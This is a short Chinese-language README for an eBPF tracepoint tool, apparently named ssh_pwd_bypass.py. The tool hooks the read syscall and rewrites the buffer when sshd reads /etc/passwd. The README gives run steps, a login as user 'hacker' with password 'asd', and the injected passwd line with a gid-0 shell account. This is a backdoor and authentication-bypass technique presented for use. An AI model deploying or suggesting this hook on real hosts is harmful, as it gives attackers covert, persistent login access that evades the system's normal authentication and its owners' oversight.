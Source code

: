 ### 说明
这个是hook read event 的例子,对应程序类型 BPF_PROG_TYPE_TRACEPOINT.

对应的event是 syscalls:sys_enter_read.

ssh用户登录的时候都会去读取/etc/passwd文件, 可以拦截这个过程并且改写读取缓冲区的数据绕过密码认证.

### example
本机打开ssh服务 然后运行 
```bash
python3 ssh_pwd_bypass.py
```

在另一台机上 
```bash
ssh -P $sshport hacker@$host_addr 
```
密码输入asd

可以修改这一行
```
char replace_etc_pwd[] = "hacker:oE7ErmEGwyKBE:1:0::/tmp:/bin/sh";
```
改写缓冲区的数据


